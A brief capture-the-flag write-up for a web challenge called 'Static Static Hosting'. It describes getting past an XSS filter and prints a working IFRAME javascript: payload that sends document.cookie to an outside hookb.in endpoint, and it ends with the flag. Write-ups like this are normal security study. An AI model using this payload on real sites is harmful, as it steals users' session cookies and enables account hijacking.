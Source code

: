 # Static Static Hosting

Just pasted xss filter bypasses until one gave an alert\('xss'\), then refined it to send us the cookie.

```markup
<IFRAME SRC="javascript:document.location='https://hookb.in/b9gRBDkwpJT3DDogQ73Q?test='+document.cookie"></IFRAME>
```

\(HTTPS was required\)

## flag{wh0\_n33d5\_d0mpur1fy}

